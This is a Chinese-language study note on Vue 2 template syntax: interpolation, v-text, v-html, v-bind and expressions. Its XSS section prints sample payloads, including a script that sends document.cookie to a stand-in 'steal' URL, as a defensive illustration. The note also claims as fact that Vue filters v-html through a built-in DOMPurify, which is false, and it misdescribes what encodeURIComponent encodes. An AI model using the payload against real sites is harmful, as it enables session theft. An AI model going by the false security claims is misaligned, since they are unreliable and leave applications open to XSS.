

:::info
**插值语法中直接插入 methods 就会显示一整个函数体，加上（）就是方法的返回值**
:::
:::info
**常用在标签体中，功能：用于解析标签体内容；写法：{{xxx}}，xxx 是 js 表达式，且可以直接读取到 data 中的所有属性**
:::

<a name="h6FUf"></a>

## [文本](https://v2.cn.vuejs.org/v2/guide/syntax.html#文本)

:::info
数据绑定最常见的形式就是使用`Mustache`语法 (双大括号) 的文本插值
:::

```html
<span>Message: {{ msg }}</span>
```

Mustache 标签将会被替代为对应数据对象上 `msg` `property` 的值。**无论何时，绑定的数据对象上 **`**msg**`\*\* **`**property**`** 发生了改变，插值处的内容都会更新**<br />**通过使用 **`**v-once**`** 指令，你也能执行一次性地插值，当数据改变时，插值处的内容不会更新但请留心这会影响到该节点上的其它数据绑定：\*\*

```html
<span v-once>这个将不会改变: {{ msg }}</span>
```

<a name="YoqzT"></a>

### 同属性冲突

:::info
📌**写成多层级结构，然后直接用对象属性调用方式去使用**
:::

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h1>插值语法</h1>

		<h3>你好，{{name}}</h3>
		<hr />
		<h1>指令语法</h1>

		<a
			v-bind:href="school.url.toUpperCase()"
			x="hello"
			>点我去{{school.name}}学习1</a
		>

		<a
			:href="school.url"
			x="hello"
			>点我去{{school.name}}学习2</a
		>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			//有两个name数据的情况下
			name: "jack",
			school: {
				name: "赵新坤",
				url: "http://www.baidu.com",
			},
		},
	});
</script>
```

<a name="dveLU"></a>

## [v-text](https://v2.cn.vuejs.org/v2/api/#v-text)

:::info
📌`v-text` 指令用于更新元素的 `textContent`，它将绑定的数据渲染为纯文本，替换元素中的内容。这与 `Mustache` 语法 `{{ }}` 类似，但 `v-text` 是一个指令，可以用于更灵活的场景
:::

- **预期**：`string`
- 优点
  - **防止 XSS 攻击**：因为 `v-text` 只插入纯文本，不会解析 `HTML`，确保了内容的安全
  - **简洁明了**：对于简单的文本绑定，使用 `v-text` 比 `{{ }}` 更清晰
  - **动态更新**：绑定的文本会随数据变化而自动更新
- **详细**：更新元素的 `textContent`。如果要更新部分的 `textContent`，需要使用 `{{ Mustache }}` 插值

```html
//简单使用
<div id="app">
	<p v-text="message"></p>
</div>

<script>
	new Vue({
		el: "#app",
		data: {
			message: "Hello, Vue!",
		},
	});
</script>

//动态更新
<div id="app">
	<p v-text="message"></p>

	<button @click="updateMessage">Update Message</button>
</div>

<script>
	new Vue({
		el: "#app",
		data: {
			message: "Hello, Vue!",
		},
		methods: {
			updateMessage() {
				this.message = "Updated Message!";
			},
		},
	});
</script>
```

- **参考**：[数据绑定语法 - 插值](https://v2.cn.vuejs.org/v2/guide/syntax.html#插值)
- 问题：一闪而过
  :::info
  当刷新页面的时候，会一闪而过{{}}，这是因为有了`js`阻塞，导致模板渲染结束了，但是数据还没有加载完，解决方式通过`v-clock`指令搭配`css：display-none`解决；或者通过`v-if`和`v-show`解决；亦或者使用钩子函数解决
  :::

```html
<div
	id="app"
	v-cloak
>
	{{ message }}
</div>

[v-cloak] { display: none; }
```

<a name="tNvAT"></a>

## [原始 HTML](https://v2.cn.vuejs.org/v2/guide/syntax.html#原始-HTML)

:::info
双大括号会将数据解释为普通文本，而非 `HTML` 代码。为了输出真正的 `HTML`，你需要使用 [**v-html**](https://v2.cn.vuejs.org/v2/api/#v-html)[ 指令](https://v2.cn.vuejs.org/v2/api/#v-html).`v-html`会先移除节点下的所有节点，调用`html`方法，通过`addProp`添加`innerHTML`属性，归根结底还是设置`innerHTML`为`v-html`的值.用于将元素的 `innerHTML` 设置为表达式的值
:::

```html
<p>Using mustaches: {{ rawHtml }}</p>

<p>Using v-html directive: <span v-html="rawHtml"></span></p>
```

这个 `span` 的内容将会被替换成为 `property` 值 `rawHtml`，直接作为 HTML——会忽略解析 property 值中的数据绑定。注意，你不能使用 `v-html` 来复合局部模板，因为 Vue 不是基于字符串的模板引擎。反之，对于用户界面 (UI)，组件更适合作为可重用和可组合的基本单位

:::info
**你的站点上动态渲染的任意 HTML 可能会非常危险，因为它很容易导致 **[**XSS 攻击**](https://en.wikipedia.org/wiki/Cross-site_scripting)**。请只对可信内容使用 HTML 插值，绝不要对用户提供的内容使用插值**
:::

```html
//简单使用
<div id="app">
	<div v-html="htmlContent"></div>
</div>

<script>
	new Vue({
		el: "#app",
		data: {
			htmlContent: '<p style="color: red;">This is red text.</p>',
		},
	});
</script>

//动态更新
<div id="app">
	<div v-html="htmlContent"></div>

	<button @click="updateContent">Update Content</button>
</div>

<script>
	new Vue({
		el: "#app",
		data: {
			htmlContent: '<p style="color: red;">This is red text.</p>',
		},
		methods: {
			updateContent() {
				this.htmlContent = '<p style="color: blue;">This is blue text.</p>';
			},
		},
	});
</script>
```

- **预期**：`string`
- **详细**：更新元素的 `innerHTML`。**注意：内容按普通 HTML 插入 - 不会作为 Vue 模板进行编译**。如果试图使用 `v-html` 组合模板，可以重新考虑是否通过使用组件来替代
  :::info
  在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 [XSS 攻击](https://en.wikipedia.org/wiki/Cross-site_scripting)。只在可信内容上使用 `v-html`，**永不**用在用户提交的内容上
  :::
  :::info
  在[单文件组件](https://v2.cn.vuejs.org/v2/guide/single-file-components.html)里，`scoped` 的样式不会应用在 `v-html` 内部，因为那部分 HTML 没有被 Vue 的模板编译器处理。如果你希望针对 `v-html` 的内容设置带作用域的 CSS，你可以替换为 [CSS Modules](https://vue-loader.vuejs.org/en/features/css-modules.html) 或用一个额外的全局 `<style>` 元素手动设置类似 BEM 的作用域策略
  :::

- **参考**：[数据绑定语法 - 插值](https://v2.cn.vuejs.org/v2/guide/syntax.html#纯-HTML)
- 注意事项

```html
<div id="app">
  <div v-html="safeHtmlContent"></div>

</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.2.9/purify.min.js"></script>

<script>
  new Vue({
    el: '#app',
    data: {
      userInput: '<script>alert("XSS Attack!")</script>'
    },
    computed: {
      safeHtmlContent() {
        return DOMPurify.sanitize(this.userInput);
      }
    }
  });
</script>
```

- **安全性问题**：由于 `v-html` 会解析和执行插入的 HTML 代码，存在 XSS 攻击的风险。应确保插入的内容是可信的或已经过适当的消毒处理
- 对于需要插入用户生成的内容，可以使用库（如 `DOMPurify`）对 HTML 进行消毒：
- **性能开销**：频繁更新大量的 HTML 内容可能会影响性能，需要谨慎使用

<a name="XRaB3"></a>

### XSS 攻击

:::info
📌**XSS（跨站脚本攻击）是一种常见的网络安全漏洞，它允许攻击者将恶意脚本注入到可信任网页中，在用户浏览网页时执行这些恶意脚本，从而获取用户敏感信息或进行其他恶意行为**
:::
:::info
📌**你的站点上动态渲染的任意 HTML 可能会非常危险，因为它很容易导致 XSS 攻击。请只对可信内容使用 HTML 插值，绝不要对用户提供的内容使用插值。（工具抓取 cookie，然后浏览器免密登录，然后读取账号密码）**
:::
<br />

<a name="jHF5b"></a>

### 攻击案例

假设有一个 Vue 组件，其中使用了 `v-html` 指令来展示一个博客评论的内容：

```vue
<template>
  <div>
    <h2>评论内容</h2>

    <div v-html="commentContent"></div>

  </div>

</template>


<script>
export default {
  data() {
    return {
      commentContent: ''
    };
  },
  mounted() {
    // 模拟从后端获取的评论内容
    this.commentContent = '<script>alert("XSS攻击")</script>';
  }
};
</script>


```

在这个例子中，`commentContent` 的值来自后端，并且没有经过任何处理直接使用 `v-html` 展示在页面上<br />攻击者可以在评论中注入恶意脚本，例如：

```vue
<script>
	window.location.href =
		"https://www.example.com/steal?cookie=" + document.cookie;
</script>
```

在这种情况下，当用户浏览该页面时，恶意脚本会被执行，将用户的 cookie 数据发送到攻击者指定的 URL。这样，攻击者就可以获取到用户的敏感信息
:::info
_为了防止 _`_XSS_`_ 攻击，应该始终对插入到 _`v-html`_ 中的内容进行合适的过滤和转义处理。可以使用安全的 _`_HTML_`_ 渲染库（如 _`_DOMPurify_`_）来过滤掉恶意的 _`_HTML_`_ 标签和事件，或者使用 _`_Vue_`_ 提供的文本插值方式（如双大括号 _`{{ }}`_）来展示普通文本而非 _`_HTML_`_ 内容_
:::
<br />
<a name="i09Sm"></a>

### 问题解决

:::info
为了避免`v-html`引起的`XSS`攻击问题，`Vue`提供了一种内置的安全机制来对插入到`DOM`中的`HTML`进行过滤，并确保其中不包含任何不安全的代码。具体来说，`Vue.js`会使用`DOMPurify`库来对`v-html`输出的`HTML`内容进行过滤，除去其中的`JS`脚本和其他不安全的`HTML`标签，从而防止`XSS`攻击。
:::
:::info
除了使用 v-html 指令外，还有其他方法可以避免 XSS 攻击。例如，可以使用 Vue.js 提供的 computed 属性来计算需要渲染到页面上的 HTML 代码，从而确保只有受信任的 HTML 代码被渲染。此外，也可以使用 encodeURIComponent()函数对插入到页面中的数据进行编码，以防止特殊字符被解释为 HTML 代码。
:::

```latex
encodeURIComponent()是JavaScript中一个用于对字符串进行编码的函数，它将字符串中的特殊字符进行编码，以便在URL或HTML属性中使用。具体来说，encodeURIComponent()会对所有非字母数字字符进行编码，包括ASCII字符集中除了字母数字字符外的所有字符，以及Unicode字符集中的所有字符。

使用encodeURIComponent()函数可以避免一些安全隐患，比如XSS攻击，因为它会确保在将数据插入到URL或HTML属性中时，不会将特殊字符解释为代码，从而防止恶意代码执行。

以下是一个使用encodeURIComponent()函数的示例：


const myString = 'Hello, world!';
const encodedString = encodeURIComponent(myString);
console.log(encodedString); // "Hello%2C%20world%21"


在上面的例子中，我们首先定义了一个名为myString的字符串变量，该字符串中包含一些特殊字符。然后，我们使用encodeURIComponent()函数对该字符串进行编码，并将编码后的字符串存储在名为encodedString的变量中。最后，我们将编码后的字符串输出到控制台中，可以看到所有特殊字符都被编码成了相应的字符串表示形式，例如“%2C”代表逗号，"%20"代表空格，"!"代表感叹号等。

总之，在编写Web应用程序时，我们应该始终保持警觉，并确保对所有需要插入到URL或HTML属性中的数据进行编码，以防止安全漏洞和攻击。
```

<a name="oxstT"></a>

## [Attribute](https://v2.cn.vuejs.org/v2/guide/syntax.html#Attribute)

:::info
📌**Mustache 语法不能作用在 HTML attribute 上，遇到这种情况应该使用 **[**v-bind**](https://v2.cn.vuejs.org/v2/api/#v-bind)[ 指令](https://v2.cn.vuejs.org/v2/api/#v-bind)
:::
:::info
📌`v-bind` 的实现原理比较简单，它本质上是通过 `JavaScript `的 `setAttribute` 方法来设置元素的属性的值的。当我们使用 `v-bind` 绑定一个属性时，`Vue `实际上会将 `v-bind` 后面的表达式求值之后，将运算结果设置到元素的对应属性上
:::

```vue
<div v-bind:id="dynamicId"></div>
```

对于布尔 attribute (它们只要存在就意味着值为 `true`)，`v-bind` 工作起来略有不同，在这个例子中

```vue
<button v-bind:disabled="isButtonDisabled">Button</button>
```

:::info
如果 `isButtonDisabled` 的值是 `null`、`undefined` 或 `false`，则 `disabled` `attribute `甚至不会被包含在渲染出来的 `<button>` 元素中
:::
例如，在 Vue 组件中，可以使用 v-bind 指令将一个组件的属性绑定到一个数据属性上，从而动态地更新组件的属性值。例如：

```html
<template>
	<div>
		<a v-bind:href="link">{{ link }}</a>
	</div>
</template>

<script>
	export default {
		data() {
			return {
				link: "https://www.example.com",
			};
		},
	};
</script>
```

- **缩写**：`:`
- **预期**：`any (with argument) | Object (without argument)`
- **参数**：`attrOrProp (optional)`
- 缩写

```html
<!-- 完整语法 -->
<a v-bind:href="url">...</a>

<!-- 缩写 -->
<a :href="url">...</a>

<!-- 动态参数的缩写 (2.6.0+) -->
<a :[key]="url"> ... </a>
```

- **修饰符**：
  - `.prop` - 作为一个 DOM property 绑定而不是作为 attribute 绑定
  - `.camel` - (2.1.0+) 将 kebab-case attribute 名转换为 camelCase。(从 2.1.0 开始支持)
  - `.sync` (2.3.0+) 语法糖，会扩展成一个更新父组件绑定值的 `v-on` 侦听器
- **用法**：
  - 动态地绑定一个或多个 attribute，或一个组件 prop 到表达式
  - 在绑定 `class` 或 `style` `attribute `时，支持其它类型的值，如数组或对象
  - 在绑定 prop 时，prop 必须在子组件中声明。可以用修饰符指定不同的绑定类型
  - 没有参数时，可以绑定到一个包含键值对的对象。注意此时 `class` 和 `style` 绑定不支持数组和对象

```javascript
<!-- 绑定一个 attribute -->


<!-- 动态 attribute 名 (2.6.0+) -->

<button v-bind:[key]="value"></button>


<!-- 缩写 -->


<!-- 动态 attribute 名缩写 (2.6.0+) -->

<button :[key]="value"></button>


<!-- 内联字符串拼接 -->


<!-- class 绑定 -->

<div :class="{ red: isRed }"></div>


<div :class="[classA, classB]"></div>


<div :class="[classA, { classB: isB, classC: isC }]">

<!-- style 绑定 -->

<div :style="{ fontSize: size + 'px' }"></div>


<div :style="[styleObjectA, styleObjectB]"></div>


<!-- 绑定一个全是 attribute 的对象 -->

<div v-bind="{ id: someProp, 'other-attr': otherProp }"></div>


 <!-- 通过 prop 修饰符绑定 DOM attribute -->

<div v-bind:text-content.prop="text"></div>


<!-- prop 绑定。“prop”必须在 my-component 中声明。-->

<my-component :prop="someThing"></my-component>


<!-- 通过 $props 将父组件的 props 一起传给子组件 -->

<child-component v-bind="$props"></child-component>

<!-- XLink -->


```

`.camel` 修饰符允许在使用 DOM 模板时将 `v-bind` property 名称驼峰化，例如 SVG 的 `viewBox`property：

```javascript

```

在使用字符串模板或通过 `vue-loader`/`vueify` 编译时，无需使用 `.camel`

- **参考**：
  - [Class 与 Style 绑定](https://v2.cn.vuejs.org/v2/guide/class-and-style.html)
  - [组件 - Props](https://v2.cn.vuejs.org/v2/guide/components.html#通过-Prop-向子组件传递数据)
  - [组件 - ](https://v2.cn.vuejs.org/v2/guide/components-custom-events.html#sync-修饰符)[.sync](https://v2.cn.vuejs.org/v2/guide/components-custom-events.html#sync-修饰符)[ 修饰符](https://v2.cn.vuejs.org/v2/guide/components-custom-events.html#sync-修饰符)

在 Vue 中，attribute 指的是 HTML 元素上的属性。这些属性可以作为组件的`props`接收到并在组件中使用

<a name="JkLc8"></a>

## [使用 JavaScript 表达式](https://v2.cn.vuejs.org/v2/guide/syntax.html#使用-JavaScript-表达式)

:::info
**迄今为止，在我们的模板中，我们一直都只绑定简单的 **`**property**`** 键值。但实际上，对于所有的数据绑定，**`**Vue.js **`**都提供了完全的 **`**JavaScript**`** 表达式支持**
:::

```vue
{{ number + 1 }}

{{ ok ? "YES" : "NO" }}

{{ message.split("").reverse().join("") }}

<div v-bind:id="'list-' + id"></div>
```

这些表达式会在所属 Vue 实例的数据作用域下作为 JavaScript 被解析。有个限制就是，每个绑定都只能包含**单个表达式**，所以下面的例子都**不会**生效

```vue
<!-- 这是语句，不是表达式 -->
{{ var a = 1 }}

<!-- 流控制也不会生效，请使用三元表达式 -->
{{ if (ok) { return message } }}
```

:::info
模板表达式都被放在沙盒中，只能访问[全局变量的一个白名单](https://github.com/vuejs/vue/blob/v2.6.10/src/core/instance/proxy.js#L9)，如 `Math` 和 `Date` 。你不应该在模板表达式中试图访问用户定义的全局变量
:::
:::info
这句话的意思是，在 Vue.js 等框架的模板表达式中，开发者不能直接访问用户自定义的全局变量。模板表达式的执行环境受到限制，它只允许访问一组预先设定的全局对象（如 Math、Date 等 JavaScript 内置对象），而不允许随意访问在全局作用域下用户自己定义的变量或函数
:::

```vue
// 用户定义的全局变量 window.myGlobalVariable = 'Hello, World!'; // Vue组件模板
<template>
	<div>
		<!-- 这里不允许直接访问myGlobalVariable -->
		{{ myGlobalVariable }}
		<!-- 这将不会显示 "Hello, World!" -->

		<!-- 可以访问全局的Math对象 -->
		{{ Math.PI }}
		<!-- 正常显示Math.PI的值 -->
	</div>
</template>
```

:::info
如果确实需要在模板中使用自定义的全局变量，应该通过组件的数据属性（data）、计算属性（computed）或者方法（methods）间接提供给模板进行访问：
:::

```javascript
// 在Vue组件内部注册数据或计算属性
export default {
  data() {
    return {
      // 将全局变量绑定到组件内部数据
      globalMessage: window.myGlobalVariable,
    };
  },
  computed: {
    // 或者通过计算属性来访问并转换全局变量
    formattedGlobalMessage() {
      return this.processGlobal(window.myGlobalVariable);
    },
  },
  methods: {
    processGlobal(message) {
      // 对全局变量进行处理
      return message.toUpperCase();
    },
  },
};

// 然后在模板中可以这样引用：
<template>
  <div>
    <!-- 访问组件内部数据 -->
    {{ globalMessage }}

    <!-- 访问经过计算属性处理后的值 -->
    {{ formattedGlobalMessage }}
  </div>

</template>

```

这样的设计有助于维护组件的封装性和安全性，避免模板层与全局状态直接耦合，同时也方便进行单元测试和代码审查
